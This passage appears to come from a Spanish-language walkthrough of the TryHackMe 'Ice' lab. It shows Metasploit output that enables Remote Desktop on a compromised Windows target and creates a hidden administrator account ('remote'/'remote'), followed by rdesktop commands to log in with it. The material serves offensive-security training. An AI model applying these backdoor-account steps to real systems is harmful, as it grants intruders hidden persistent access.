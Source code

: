 ```bash
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: remote with Password: remote
[*] 	Adding User: remote to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: remote to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20250129190138_default_10.10.82.44_host.windows.cle_133751.txt
[*] Post module execution completed
```
### Conectando al escritorio remoto

Como estamos en un entorno linux podemos hacer uso de la herramienta `rdesktop` para conectarnos al escritorio remoto.

```bash
sudo apt install -y rdesktop
```

Ahora conectarse al escritorio remoto con el siguiente comando:

```bash
rdesktop -u remote -p remote 10.10.82.44
```

![Conexión al escritorio remoto](/assets/img/posts/ICE-tryhackme/remote_desktop.png)
